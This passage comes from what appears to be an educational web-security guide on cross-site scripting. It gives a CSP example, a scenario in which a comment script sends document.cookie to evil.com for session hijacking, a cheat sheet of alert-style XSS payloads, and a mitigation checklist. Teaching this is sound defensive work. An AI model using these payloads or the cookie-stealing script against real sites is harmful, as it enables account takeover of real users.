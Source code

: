 Example:

```http
Content-Security-Policy: script-src 'self';
```

✔️ Restricts script sources to same origin.

---

## 🔍 Real-World Example: XSS on Comment System

1. Website has a blog post with comments.
2. Attacker submits:

   ```html
   <script>fetch('https://evil.com/?cookie='+document.cookie)</script>
   ```
3. Unsanitized comment is displayed to other users.
4. Victim's cookie is sent to attacker's server.
5. Attacker uses cookie to hijack session.

---

## 📚 Cheat Sheet for XSS Payloads

```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<iframe src=javascript:alert(1)>
<body onload=alert(1)>
<details open ontoggle=alert(1)>
<input autofocus onfocus=alert(1)>
```

For more advanced payloads, check:
[https://xss.rocks](https://xss.rocks)

---

## ✅ Mitigation Checklist

* [x] Validate input (whitelist, not blacklist)
* [x] Encode output for context (HTML, JS, URL, etc.)
* [x] Set HTTP-only and Secure flags on cookies
* [x] Use CSP headers
* [x] Escape dynamic content in templates
* [x] Avoid `innerHTML`, `document.write` in JS

---

## 🏁 Conclusion
